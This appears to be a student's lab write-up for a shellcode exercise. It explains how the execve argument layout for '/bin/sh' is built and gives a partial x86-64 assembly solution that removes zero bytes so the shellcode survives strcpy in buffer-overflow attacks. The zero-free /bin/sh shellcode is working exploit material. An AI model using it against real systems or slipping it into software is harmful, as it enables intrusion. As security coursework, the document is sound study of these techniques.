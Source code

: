  3. The argv[] array is constructed as:
    - `mov [rbx+8], rbx` sets argv[0] to point to "/bin/sh" string
    - `mov [rbx+16], rax` sets argv[1] to NULL (terminator)
    Memory layout:
    - rbx -> "/bin/sh"
    - rbx+8 -> points to "/bin/sh" (argv[0])
    - rbx+16 -> NULL (argv[1])

 4. Lines 1-2 prepare execve() arguments:
    - `mov rdi, rbx` - Line 1 sets first arg (filename) to "/bin/sh" address
    - `lea rsi, [rbx+8]` - Line 2 sets second arg (argv) to address of argv array

![task2](task2.png)

#### Task 2.b. Eliminate zeros from the code

Shellcode is widely used in buffer-overflow attacks. In many cases, the vulnerabilities are caused by string
copy, such as the strcpy() function. For these string copy functions, zero is considered as the end of the
string. Therefore, if we have a zero in the middle of a shellcode, string copy will not be able to copy anything
after the zero, so the attack will not be able to succeed. Although not all the vulnerabilities have issues with
zeros, it becomes a requirement for shellcode not to have any zero in the machine code; otherwise, the
application of a shellcode will be limited.
The sample code provided in the previous section is not a true shellcode, because it contains several
zeros. Please use the objdump command to get the machine code of the shellcode and mark all the instruc-
tions that have zeros in the machine code.
To eliminate these zeros, you need to rewrite the shellcode mysh64.s, replacing the problematic in-
structions with an alternative. Section 5 provides some approaches that you can use to get rid of zeros.
Please show the revised mysh64.s and explain how you get rid of each single zero from the code.

##### solution
Here's the revised code

- code : `Shellcode/mysh64_no_zero.s`
- gdb output : `Shellcode/task2b_output.txt`

```nasm
section .text
    global _start
    _start:
        BITS 64
        jmp short two
    one:
        pop rbx

        ; Zero out al without using immediate zero
        xor al, al
        mov [rbx+7], al   ; Null terminate /bin/sh

        ; Store rbx to memory without direct mov
        push rbx
        pop qword [rbx+8]  ; Replaces 'mov [rbx+8], rbx'

        ; Zero out rax without immediate zero
        xor rax, rax      ; Replaces 'mov rax, 0x00'
        mov [rbx+16], rax ; Store null terminator for argv

        ; Setup execve arguments
        mov rdi, rbx      ; First arg: command string
```